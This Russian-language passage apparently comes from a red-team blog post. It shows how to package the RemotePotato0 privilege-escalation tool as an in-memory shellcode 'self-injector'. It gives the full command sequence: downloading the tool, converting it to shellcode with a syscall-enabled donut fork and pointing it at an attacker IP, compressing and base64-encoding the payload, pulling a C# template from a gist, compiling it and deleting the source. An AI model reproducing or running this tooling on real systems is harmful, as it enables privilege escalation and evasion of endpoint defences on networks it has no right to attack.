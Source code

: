 На основе примеров из статьи выше я напилил [шаблон](https://gist.github.com/snovvcrash/30bd25b1a5a18d8bb7ce3bb8dc2bae37) для автоматизации создания self-инжекторов. Шеллкоды генерируются из PE-файлов с помощью [этого форка](https://github.com/S4ntiagoP/donut/tree/syscalls) проекта donut.

Для компиляции .NET потребуется машина с Visual Studio.

```
~$ wget -q https://github.com/antonioCoco/RemotePotato0/releases/download/1.2/RemotePotato0.zip
~$ unzip RemotePotato0.zip
~$ ./donut -i RemotePotato0.exe -b=1 -t -p '-m 2 -x <ATTACKER_IP> -p 9998 -s <SESSION_ID>' -o RemotePotato0.bin
PS > $binaryName = "RemotePotato0"
PS > $bytes = [System.IO.File]::ReadAllBytes("$(pwd)\${binaryName}.bin")
PS > [System.IO.MemoryStream] $outStream = New-Object System.IO.MemoryStream
PS > $dStream = New-Object System.IO.Compression.DeflateStream($outStream, [System.IO.Compression.CompressionLevel]::Optimal)
PS > $dStream.Write($bytes, 0, $bytes.Length)
PS > $dStream.Dispose()
PS > $outBytes = $outStream.ToArray()
PS > $outStream.Dispose()
PS > $b64Compressed = [System.Convert]::ToBase64String($outBytes)
PS > $template = (New-Object Net.WebClient).DownloadString("https://gist.github.com/snovvcrash/30bd25b1a5a18d8bb7ce3bb8dc2bae37/raw/881ec72c7c310bc07af017656a47d0c659fab4f6/template.cs") -creplace 'DONUT', $b64Compressed
PS > $template -creplace 'NAMESPACE', "${binaryName}Inject" > ${binaryName}Inject.cs
PS > csc /t:exe /platform:x64 /out:${binaryName}Inject.exe ${binaryName}Inject.cs
PS > rm ${binaryName}Inject.cs
```

[![Компиляция self-инжектора](/assets/images/remote-potato-0/remotepotato0-compile-injector.png)](/assets/images/remote-potato-0/remotepotato0-compile-injector.png)
{:.center-image}


[//]: # (2022-05-11)